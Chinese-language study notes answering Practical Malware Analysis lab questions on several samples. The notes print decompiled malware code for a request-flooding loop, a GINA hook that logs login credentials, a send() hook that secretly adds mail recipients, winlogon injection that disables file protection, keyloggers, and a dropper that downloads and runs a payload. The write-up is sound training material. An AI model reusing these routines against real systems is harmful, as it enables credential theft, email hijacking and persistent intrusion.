void __stdcall __noreturn StartAddress(LPVOID lpThreadParameter)
{
  void *hInternet; // esi@1

  for ( hInternet = InternetOpenA(szAgent, 1u, 0, 0, 0); ; InternetOpenUrlA(hInternet, szUrl, 0, 0, 0x80000000, 0) )
    ;
}
```

这是一个死循环（没有退出条件），不停以`Internet Explorer 8.0`的User-Agent访问 `http://www.malwareanalysisbook.com` 。

`Sleep(0xFFFFFFFF)`：A value of INFINITE indicates that the suspension should not time out.

### 当计算机重启后，这个程序如何确保它继续运行（达到持久化驻留）？

这个程序创建 `MalService` ，来保证它每次在系统启动后运行。

### 为什么这个程序会使用一个互斥量？

这个程序使用一个互斥量，来保证同一时间这个程序只有一份示例在运行。

### 可以用来检测这个程序的基于主机特征是什么？

我们可以搜索一个名为 `HGL345` 的互斥量，以及 `MalService` 服务。

### 检测这个恶意代码的基于网络特征是什么？

这个恶意程序代码使用User-Agent: `Internet Explorer 8.0` 访问 `http://www.malwareanalysisbook.com` 。

### 这个程序的目的是什么？

这个程序等到2100年1月1日半夜，那时发送许多请求到 `http://www.malwareanalysisbook.com` ，大概是为了对这个网站进行一次DDos攻击。

### 这个程序什么时候完成执行？

这个程序永远不会完成。它在一个定时器上等待到2100年，到时候创建20个线程，每一个运行一个无限循环。

## Lab07-02

这些函数都是与COM组件相关。

看不出是啥意思😵‍💫



打开OllyICE，在这个函数打断点。



继续运行，弹出浏览器并访问了`http://www.malwareanalysisbook.com/ad.html`



把`ppv` 想象成一个虚表，里面挨个存放着属于COM对象的函数地址(书上说是.h文件中的第12个函数，对应偏移`0x2C`处，经过查证是`IWebBrowser2.Navigate()`)。

当`IWebBrowser2.Navigate()`被调用，Internet Explorer将导航网址`http://malwareanalysisbook.com/ad.html`；

### 1、这个程序如何完成持久化驻留？

没有持久驻留，运行一次然后退出；

### 2、这个程序的目的是什么？

显示一个网页(广告)；

### 3、这个程序是什么时候完成执行？

显示完网页(广告)后完成执行；

## Lab05-01

### 1.`DllMain`的地址是什么?



1000D02E

### 2.使用Imports窗口并浏览到gethostbyname,导入函数定位到什么地址?



100163CC

### 3.有多少函数调用了gethostbyname?

r表示读，p表示调用，去掉重复的调用，一共5个！



当然，还有另一种方式：



### 4.将精力集中在位于0x10001757处的对gethostbyname的调用,你能找出哪个DNS请求将被触发吗?



跳转到 `off_10019040`

它竟是字符串的别名：



`[This is RDO]pics.praticalmalwareanalysis.com`



所以向DNS请求`pics.praticalmalwareanalysis.com`的IP。

### 5.IDA Pro识别了在0x10001656处的子过程中的多少个局部变量?



注意ebp正偏移是参数，ebp的负偏移是局部变量。除 `lpThreadParameter` 外，一共有23个局部变量。

### 6.IDA Pro识别了在0x16001656处的子过程中的多少个参数?

`lpThreadParameter` 一个参数。

### 7.使用Strings窗口,来在反汇编中定位字符串`\cmd.exe/c`。它位于哪?



10095B34

### 8.在引用`\cmd.exe/c`的代码所在的区域发生了什么?



这里又有pipe又有recv，有理由相信这是一个远程shell。

### 9.在同样的区域,在0x100101C8处,看起来好像dword_1008E5C4是一个全局变量,它帮助决定走哪条路径。那恶意代码是如何设置dword_1008E5C4的呢?(提示:使用dword_1008E5C4的交叉引用。)

我跳转到它的写入处。



进入 `sub_10003695`

```c
BOOL sub_10003695()
{
  struct _OSVERSIONINFOA VersionInformation; // [sp+0h] [bp-94h]@1

  VersionInformation.dwOSVersionInfoSize = 148;
  GetVersionExA(&VersionInformation);
  return VersionInformation.dwPlatformId == 2;
}
```

`dwPlatformId`

操作系统平台。 此成员可以是以下值。

| 值                                  | 意义                                                                                               |
| ---------------------------------- | ------------------------------------------------------------------------------------------------ |
| **VER_PLATFORM_WIN32_NT**<br><br>2 | 操作系统是 Windows 7、Windows Server 2008、Windows Vista、Windows Server 2003、Windows XP 或 Windows 2000。 |
所以，这个函数判断操作系统是否是 WIN32_NT 。

### 10.在位于0x1000FF58处的子过程中的几百行指令中,一系列使用memcmp来比较字符串的比较如果对rootwork的字符串比较是成功的(当memcmp返回0),会发生什么?

先找到这一if分支



进入 `sub_100052A2`



打开 `SOFTWARE\Microsoft\Windows\CurrentVersion` 查询了 `SOFTWARE\Microsoft\Windows\CurrentVersion\WorkTime` 和 `SOFTWARE\Microsoft\Windows\CurrentVersion\WorkTimes` 并将结果发送到远程socket。

### 11.PSLIST导出函数做了什么?

打开 Export 窗口找到 `PSLIST`

```c
int __userpurge PSLIST@<eax>(char a1@<sil>, int a2, int a3, char *Str, int a5)
{
  int result; // eax@1

  dword_1008E5BC = 1;
  result = sub_100036C3();
  if ( result )
  {
    if ( strlen(Str) )
      result = sub_1000664C(a1, 0, Str);
    else
      result = sub_10006518();
  }
  dword_1008E5BC = 0;
  return result;
}
```

`sub_100036C3` 也是判断相关版本的函数。接下来，如果 `Str` 不是空，`sub_1000664C`



遍历所有进程，找到 `Str` 进程的信息发送出去。

书里说两条路径都通过 `send` 发送出去，但是另一条没有看到 `send` ，难道隐藏在 xinstall.dll里面吗？




### 12.使用图模式来绘制出对sub_10004E79的交叉引用图。当进入这个函数时,哪个API函数可能被调用?仅仅基于这些API函数,你会如何重命名这个函数?



我会重命名为 `send_system_lang`

### 13.DllMain直接调用了多少个 Windows api?多少个在深度为2时被调用?

"View" -> "User xref chart" 将递归深度设置为2。



看到了非常非常多Windows API。

### 14.在0x10001358处,有一个对Sleep(一个使用一个包含要睡眠的毫秒数的参数的API函数)的调用。顺着代码向后看,如果这段代码执行,这个程序会睡眠多久?





30秒

### 15.在0x10001701处是一个对 socket的调用。它的3个参数是什么?



3个参数分别是2，1，6

### 16.使用MSDN页面的 socket和 IDA Pro中的命名符号常量,你能使参数更加有意义吗?在你应用了修改以后,参数是什么?

找到[socket函数](https://learn.microsoft.com/zh-cn/windows/win32/api/winsock2/nf-winsock2-socket)，根据Enum的符号名添加

打开Enum窗口，点击"Edit" -> "Add Enum" -> "Add standard enum by symbol name"

以第二个参数 `type` 为例，搜索"SOCK_" 就出现了


点击添加，然后修改



同理最后得到



### 17.搜索in指令( opcode 0xED)的使用。这个指令和一个魔术字符串VMXh用来进行 Vmware检测。这在这个恶意代码中被使用了吗?使用对执行in指令函数的交叉引用,能发现进一步检测Vmware的证据吗?

点击 "Search" -> "sequence of bytes" -> "Find all occurrence"





按x查看交叉引用



### 18.将你的光标跳转到0x1001D988处,你发现了什么?



这里有一些看起来随机的字符，可能是经过了加密。

### 19.如果你安装了 IDA Python插件(包括 IDA Pro的商业版本的插件),运行Lab05-01.py,一个本书中随恶意代码提供的 IDA Pro Python脚本,(确定光标是在0x1001D988处。)在你运行这个脚本后发生了什么?

根据建议，我通过"File" -> "Script file..." 选择该脚本来运行。运行之后字符变了。

### 20.将光标放在同一位置,你如何将这个数据转成一个单一的ASCI字符串?

按下"A"键转换为字符串：



### 21.使用一个文本编辑器打开这个脚本。它是如何工作的?

```python
sea = ScreenEA()

for i in range(0x00,0x50):
        b = Byte(sea+i)
        decoded_byte = b ^ 0x55
        PatchByte(sea+i,decoded_byte)
```

该脚本获得光标当前位置，用作要解码数据的偏移值。接下来，它从0~0x50循环；通过调用 `Byte` 获得每个字节的值，将这些字节与0x55进行异或操作；最后，它将这些字节写回IDA Pro的显示中，而不会去修改原始文件（这是因为，IDA Pro在解析完二进制文件后，会将结果保存在另外的数据库中，用户的所有操作都只是针对这个数据库进行的，不会影响原始文件）。

## Lab11-01



大概看到 `main` 函数的两个子过程。

一个是加载资源



一个是修改注册表



但是没有看到在哪里赋值……



既然是资源，就要打开 resource_hacker ！



save as bin file 然后用IDA打开，发现是一个DLL



> 在WindowsXP系统中，恶意代码用微软图形识别和验证界面(GINA)拦截技术来窃取用户的登录凭证。GINA的设计目的是让合法第三方通过添加一些代码，来自定义登录过程，如用硬件无线射频标识(RFID)令牌或者智能卡来进行身份认证等。恶意代码编写者利用GINA对第三方的支持来加载窃密器
>
> GINA在msgina.dll中实现，这个DLL在用户登录系统过程中由Winlogon可执行文件加载。在Winlogon与GINA DLL之间加载第三方DLL(类似于Winlogon也为第三方定制实现DLL程序中间人攻击)。为了方便，Windows用列注册表项，来存储需要Winlogon加载的第三方DLL。

所有的 GINA 函数都是调用这个函数





### 1. 这个恶意代码向磁盘释放了什么？

在 `sub_401080` 中加载了那个DLL资源，然后下面由 `fopen` `fwrite` 函数写到 `msgina32.dll`

### 2. 这个恶意代码如何进行驻留？

> 在 `SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 注册表路径下，您可以配置与用户登录和注销相关的重要设置。

在 `sub_401000` 中设置了 `SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL` 的值为刚才写入的`msgina.dll`。

### 3. 这个恶意代码如何窃取用户凭证？

我们导出这个DLL，用IDA 打开。

这是一个钩子函数：

```c
FARPROC __stdcall sub_10001000(LPCSTR lpProcName)
{
  FARPROC result; // eax@1
  CHAR v2; // [sp+4h] [bp-10h]@3

  result = GetProcAddress(hLibModule, lpProcName);
  if ( !result )
  {
    if ( !((unsigned int)lpProcName >> 16) )
      wsprintfA(&v2, aD, lpProcName);
    ExitProcess(0xFFFFFFFE);
  }
  return result;
}
```

每个gina函数都被替换为钩子函数：



这就是第11章前面讲的GINA拦截操作。

密码验证相关的函数是：`WlxLoggedOutSAS`，把函数挨个点一遍也会发现，只有这个函数里面的内容不一样！真是服了，我以为都是同样的钩子函数，没想到藏了一手！

```cpp
int __stdcall WlxLoggedOutSAS(int a1, int a2, int a3, int a4, int a5, int a6, int a7, int a8)
{
  FARPROC v8; // edi@1
  int v9; // edi@1

  v8 = sub_10001000(aWlxloggedout_0);
  operator new(0x64u);
  v9 = ((int (__stdcall *)(int, int, int, int, int, int, int, int))v8)(a1, a2, a3, a4, a5, a6, a7, a8);
  if ( v9 == 1 && *(_DWORD *)a7 )
    sub_10001570(0, aUnSDmSPwSOldS, *(_DWORD *)a7, *(_DWORD *)(a7 + 4), *(_DWORD *)(a7 + 8), *(_DWORD *)(a7 + 12));
  return v9;
}
```

通过这种钩子函数的方式，把传给 `WlxLoggedOutSAS` 的参数取出来做下一步处理。

在MSDN上查询
[WlxLoggedOutSAS 函数](https://learn.microsoft.com/zh-cn/windows/win32/api/winwlx/nf-winwlx-wlxloggedoutsas)
恶意代码里面把第七个参数提取了出来，目测是一个结构体。

```c
int WlxLoggedOutSAS(
  [in]      PVOID                pWlxContext,
  [in]      DWORD                dwSasType,
  [out]     PLUID                pAuthenticationId,
  [in, out] PSID                 pLogonSid,
  [out]     PDWORD               pdwOptions,
  [out]     PHANDLE              phToken,
  [out]     PWLX_MPR_NOTIFY_INFO pNprNotifyInfo,
  [out]     PVOID                *pProfile
);
```

```cpp
typedef struct _WLX_MPR_NOTIFY_INFO {
  PWSTR pszUserName;
  PWSTR pszDomain;
  PWSTR pszPassword;
  PWSTR pszOldPassword;
} WLX_MPR_NOTIFY_INFO, *PWLX_MPR_NOTIFY_INFO;
```

通过对这个函数的拦截，获取到的用户的凭证信息。

### 4. 这个恶意代码对窃取的凭证做了什么处理？

遗憾的是IDA中查询不到这个结构体，我无法将其转换为标准中的结构体。但不难看出，分别将这四个成员传递给
`sub_10001570`
函数，这是一个写入字符串的函数。

```cpp
write_file("UN %s DM %s PW %s OLD %s", pszUserName, pszDomain, pszPassword, pszOldPassword);
```



写入了`msutil32.sys` 这个文件中。而且是 `%SystemRoot%\System32\msutil32.sys` 这个文件。由于这个恶意代码 `msgina32.dll` 运行在Winlogon进程中，Winlogon位于`C:\Windows\System32\` 目录，所以这个 `msutil32.sys` 创建在这个目录下。

### 5. 如何在你的测试环境中让这个恶意代码获得用户登录凭证？

> 释放并安装恶意代码后，必须重启系统才能启动GINA拦截。仅当用户注销时，恶意代码才记录登录凭证，所以注销然后再登录系统，就能看到记录到日志文件的登录凭证。

我可以打开Process Monitor然后运行Lab11-01.exe，发现了文件写和注册表修改的事件：



## Lab11-02

### 1. 这个恶意DLL导出了什么？

`installer`函数。

### 2. 使用rundll32.exe安装这个恶意DLL后，发生了什么？

打开 Process Monitor，然后执行

```
rundll32 Lab11-02.dll installer
```



过滤器可以重点关注 `WriteFile` `RegSetValue`

在系统system32目录下创建了文件spoolvxx32.dll，在注册表AppInit_DLLs里添加了这个dll。

### 3. 为了使这个恶意代码正确安装，Lab11-02.ini必须放在何处？

查看DLLMain：

```c
BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
  BOOL result; // eax@1
  DWORD NumberOfBytesRead; // [sp+0h] [bp-Ch]@3
  HANDLE hFile; // [sp+4h] [bp-8h]@2
  char *Dest; // [sp+8h] [bp-4h]@2

  result = (BOOL)hinstDLL;
  dword_100035A4 = (int)hinstDLL;
  if ( fdwReason == 1 )
  {
    GetModuleFileNameA(hinstDLL, ExistingFileName, 0x104u);
    memset(file_buf, 0, 257u);
    Dest = system_director();
    strncat(Dest, aLab1102_ini, 0x104u);
    result = (BOOL)CreateFileA(Dest, 0x80000000, 1u, 0, 3u, 0x80u, 0);
    hFile = (HANDLE)result;
    if ( result != -1 )
    {
      NumberOfBytesRead = 0;
      ReadFile(hFile, file_buf, 256u, &NumberOfBytesRead, 0);
      if ( NumberOfBytesRead )
      {
        file_buf[NumberOfBytesRead] = 0;
        decrypt(file_buf);
      }
      CloseHandle(hFile);
      result = sub_100014B6(1);
    }
  }
  return result;
}
```

在13和14行处，要去系统目录下打开Lab11-02.ini文件，也就是 `%SystemRoot%\System32\Lab11-02.ini` 。

### 4. 这个安装的恶意代码如何驻留？

在 `installer` 函数中，把这个DLL复制到系统目录下面的 `spoolvxx32.dll`



设置注册表 AppInit_DLLs，实现驻留。



**AppInit_DLLs** 是一种机制，允许将自定义 DLL 加载到每个交互式应用程序（使用了`user32.dll`）的地址空间中，从而提供了一种简单的方法来挂钩系统 API。这种机制可以被合法应用程序和恶意软件利用，加载自定义 DLL 后，它可以挂钩已知的系统 API 并实现备用功能。

### 5. 这个恶意代码采用的用户态Rootkit是什么？

inline hook 是通过覆盖导入DLL中API 函数的代码来实现的，所以它必须等待DLL被加载后才能执行。IAT hook只是简单地修改函数指针，但inline hook将修改实际的代码。

```c
void __cdecl sub_100014B6(int a1)
{
  void *v1; // ecx@0
  size_t v2; // eax@3
  size_t v3; // eax@4
  size_t v4; // eax@5
  void *file_path; // [sp+0h] [bp-4h]@1

  file_path = v1;
  if ( a1 )
  {
    get_file_path(0, (int)&file_path);
    file_path = get_file_name((char *)file_path);
    if ( file_path )
    {
      upcase(file_path);
      v2 = strlen(aThebat_exe);
      if ( !memcmp(file_path, aThebat_exe_0, v2)
        || (v3 = strlen(aOutlook_exe), !memcmp(file_path, aOutlook_exe_0, v3))
        || (v4 = strlen(aMsimn_exe), !memcmp(file_path, aMsimn_exe_0, v4)) )
      {
        sub_100013BD();
        sub_100012A3(ModuleName, aSend, (int)sub_1000113D, (int)&dword_10003484);
        sub_10001499();
      }
    }
  }
}
```

在 `sub_100014B6` 中，我看到它对调用这个DLL的程序名进行了判断，只有THEBAT.EXE/OUTLOOK.EXE/MSIN.EXE会执行下面的钩子函数。对 `wsock32.dll` 的 `send` 进行了修改

### 6. 钩子函数做了什么？

```c
int __stdcall sub_1000113D(int a1, char *Str, int a3, int a4)
{
  size_t v4; // eax@2
  size_t v5; // eax@2
  size_t v6; // eax@2
  char Dst[516]; // [sp+0h] [bp-204h]@2

  if ( strstr(Str, SubStr) )
  {
    v4 = strlen(::Str);
    memcpy(Dst, aRcptTo_1, v4);
    v5 = strlen(aRcptTo_2);
    memcpy(&Dst[v5], file_buf, 257u);
    strcat(Dst, Source);
    v6 = strlen(Dst);
    dword_10003484(a1, Dst, v6, a4);
  }
  return dword_10003484(a1, Str, a3, a4);
}
```

看起来是在原来如果有 `RCPT TO` 就在后面加上 `RCPT TO: <file_buf>\r\n`。

`file_buf` 在DLLMain前面已经解密过了

### 7. 哪个文件或者哪些进程执行这个恶意攻击，为什么？

仅针对 THEBAT.EXE/OUTLOOK.EXE/MSIN.EXE 这些都是邮件客户端。

### 8. `.ini` 文件的意义是什么？

对 `CHMMXaL@MV@SD@O@MXRHRCNNJBNL` 解密

我编写了一个python程序

```python
def decrypt(data: bytes) -> bytes:
    """
    模拟C语言decrypt函数，对字节串进行解密。
    遇到 \\r (0x0D)、\\n (0x0A) 或 \\0 (0x00) 时停止处理。
    """
    key = (666 * 50) >> 4  # 2081
    out = bytearray()
    for b in data:
        if b == 0x00 or b == 0x0D or b == 0x0A:
            break
        out.append((b ^ key) & 0xFF)
    return bytes(out)


# 若只解密单行字符串（文本形式）
def decrypt_string(s: str) -> str:
    data = s.encode("utf-8")
    dec = decrypt(data)
    return dec.decode("utf-8", errors="ignore")


# 测试
if __name__ == "__main__":
    with open("Lab11-02.ini", "r") as f:
        line = f.readline()
        print(decrypt_string(line))
```

得到
`billy@malwareanalysisbook.com`

或者将DLL拖到OllyICE里面，设置断点，也可以看到这个结果



### 9. 你怎样用Wireshark东通抓获这个恶意代码的行为？

> 不清楚钩子函数底层地址操作。

## Lab11-03

### 1. 使用基础的静态分析过程，你可以发现什么有趣的线索？

DLL的字符串



DLL的导入表有记录击键的三个函数



EXE的字符串有 `.data:004091B8 00000024 C C:\\WINDOWS\\System32\\inet_epar32.dll` `.rdata:004080E8 00000008 C cmd.exe`

### 2. 当运行这个恶意代码时，发生了什么？

将 `Lib11-03.dll` 复制到 `C:\WINDOWS\System32\inet_epar32.dll` ，向 `C:\WINDOWS\System32\cisvc.exe` 的内存映射进行了修改，然后通过cmd执行了命令：`cmd.exe /c net start cisvc`启动了一个服务

### 3. Lab11-03.exe如何安装Lab11-03.dll使其长期驻留？

看了答案才大概明白， .data 段这里居然是有汇编代码的，这就是注入到 `cisvc.exe` 的shellcode。这是什么神奇技巧……



### 4. 这个恶意代码感染Windows系统的哪个文件？

cisvc.exe文件

### 5. Lab11-03.DLL做了什么？

导出函数 `zzz69806582` 是一个轮询的击键记录器，判断互斥量 `MZ`

### 6. 这个恶意代码将收集的数据存放在何处？



记录到 `C:\WINDOWS\System32\kernel64x.dll` 中。

## Lab12-01

### 1. 在你运行恶意代码可执行文件时，会发生什么？

每隔一分钟会弹窗。

### 2. 哪个进程会被注入？



被注入的进程是 `explorer.exe` 。

### 3. 你如何能够让恶意代码停止弹出窗口？

`explorer.exe` 被注入，重启即可停止。



### 4. 这个恶意代码样本是如何工作的？

Lab12-01.DLL中有弹出消息框的功能

```c
void __stdcall sub_10001030(LPVOID lpThreadParameter)
{
  int i; // [sp+0h] [bp-18h]@1
  char Parameter; // [sp+4h] [bp-14h]@2

  for ( i = 0; ; ++i )
  {
    sprintf(&Parameter, aPracticalMalwa, i);
    CreateThread(0, 0, (LPTHREAD_START_ROUTINE)StartAddress, &Parameter, 0, 0);
    Sleep(60000u);
  }
}

signed int __stdcall StartAddress(LPVOID lpThreadParameter)
{
  MessageBoxA(0, Text, (LPCSTR)lpThreadParameter, 0x40040u);
  return 3;
}
```

标题是 `Practical Malware Analysis` 后面是弹出次数，消息内容是 `Press OK to reboot` 。

## Lab12-02

### 1. 这个程序的目的是什么？

启动一个 `svchost.exe` ，但是其中有的被替换成资源节的东西了，这就是进程替换。

### 2. 恶意代码的启动器是如何隐蔽执行的？

这个程序使用进程替换来秘密执行。

### 3. 恶意代码的负载存储在哪里？

在资源节里面，使用了 `FindResourceA` `LoadResource`



名字是 `LOCALIZATION` 类型是 `UNICODE`

### 4. 恶意代码负载是如何被保护的？

使用 Resource hacker 打开并保存。



注意到接下来的操作



```c
int __cdecl sub_401000(int a1, unsigned int a2, char a3)
{
  int result; // eax@3
  unsigned int i; // [sp+0h] [bp-4h]@1

  for ( i = 0; i < a2; ++i )
  {
    *(_BYTE *)(i + a1) ^= a3;
    result = i + 1;
  }
  return result;
}
```

`decrypt`函数里面有异或操作，所以我还要对导出的二进制文件进行修改。

Ctrl+A 右键“编辑” -> “修改数据”，可以执行异或操作，注意输入的是65的十六进制0x41！

可以看到刚才在Resource hacker里面不是MZ开头，现在直接就是MZ开头！可以用IDA正常打开！



是一个击键记录器！写到了 `practicalmalwareanalysis.log` 文件里面。



### 5. 字符串列表是如何被保护的？

> 没看懂是哪里的“字符串列表”

## Lab12-03

### 1. 这个恶意负载的目的是什么？

这个exe就是刚才Lab12-02导出的击键记录器。它将击键记录到 `practicalmalwareanalysis.log` 文件里面。

### 2. 恶意负载是如何注入自身的？

这个程序使用挂钩注入，来偷取击键记录。在 `fn` 函数中。

### 3. 这个程序还创建了哪些其他文件？

这个程序创建文件 `practicalmalwareanalysis.log` 文件，来保存击键记录。

## Lab12-04

### 1. 位置0x401000的代码实现了什么功能？

判断进程的名称是不是 `winlogon`

### 2. 代码注入了哪个进程？

注入了 `winlogon.exe`

### 3. 使用`LoadLibraryA` 装载了哪个DLL程序？

`sfc_os.dll`

```c
int __cdecl sub_401174(DWORD dwProcessId)
{
  int result; // eax@2
  HMODULE v2; // eax@3
  HANDLE hProcess; // [sp+4h] [bp-8h]@3

  if ( privilege(aSedebugprivile) )
  {
    result = 0;
  }
  else
  {
    v2 = LoadLibraryA(LibFileName);
    lpStartAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(v2, (LPCSTR)2);
    hProcess = OpenProcess(0x1F0FFFu, 0, dwProcessId);
    if ( hProcess )
    {
      CreateRemoteThread(hProcess, 0, 0, lpStartAddress, 0, 0, 0);
      result = 1;
    }
    else
    {
      result = 0;
    }
  }
  return result;
}
```

### 4. 传递给 `CreateRemoteThread` 调用的第四个参数是什么？

`sfc_os.dll` 里面一个未命名的2号函数。

> 负责Windows文件保护机制，2号为SfcTerminateWatcherThread函数禁用文件保护机制。

### 5. 二进制主程序释放出了哪个恶意代码？

名为 `#101` 的BIN二进制程序。覆盖了 `winupdmgr` 更新程序。覆盖之前，恶意代码将它复制到 `%TEMP%/winup.exe` 里面。

### 6. 释放出恶意代码的目的是什么？

使用 resource hacker 抽取该恶意程序。这是一个.EXE





在执行 `winupdmgr` Windows更新程序的同时，还会从`http://wwww.practicalmalwareanalysis.com/updater.exe` 网站上下载文件并执行！下载到 `winupdmgrd` 与 `winupdmgr` 仅有一个字母之差！
